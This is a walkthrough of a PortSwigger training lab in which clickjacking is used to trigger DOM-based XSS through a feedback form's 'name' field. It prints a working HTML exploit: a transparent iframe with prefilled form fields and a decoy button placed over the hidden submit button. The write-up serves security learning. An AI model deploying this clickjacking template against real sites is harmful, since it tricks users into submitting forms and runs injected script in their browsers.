



# [Exploiting clickjacking vulnerability to trigger DOM-based XSS](https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss)

## Steps

- Opened the target web application and explored the available functionality. Identified a feedback form as a potential XSS injection point. Observed that the `name` field value was reflected directly into the thank-you message on the page without sanitization, making it vulnerable to DOM-based XSS.


- Tested the XSS vulnerability by injecting an image tag payload into the `name` field via the URL parameter: `name=`. Confirmed that the payload was executed in the browser when the feedback form was submitted, with the `alert(1)` function triggering successfully.


- Constructed the clickjacking payload combining both techniques. Other form fields were also prefilled via URL parameters. Embedded the feedback page URL inside a transparent `<iframe>` with all form fields prefilled via URL parameters, including the XSS payload in the `name` field. Adjusted the decoy button position to align precisely with the hidden "Submit feedback" button on the target page.

  ```html
  <style>
    #target_website {
      position: relative;
      width: 1900px;
      height: 935px;
      opacity: 0.000001;
      z-index: 2;
    }

    #decoy_website {
      position: absolute;
      top: 830px;
      left: 395px;
      z-index: 1;
    }
  </style>

  <div id="decoy_website">
    <button>
      Just click this button!
    </button>
  </div>

  <iframe
    id="target_website"
    src="https://0a3a0009048ccf84800c03c3007f002f.web-security-academy.net/feedback?name=&email=peter%40normal-user.net&subject=a&message=asd"
  >
  </iframe>
  ```

- Delivered the exploit to the victim. When the victim clicked the visible decoy button, they unknowingly submitted the prefilled feedback form inside the transparent iframe. The `name` field containing the XSS payload was processed by the page, causing the injected script to execute in the victim's browser context and triggering the `print()` function.


- The DOM-based XSS was triggered successfully via clickjacking, completing the lab.
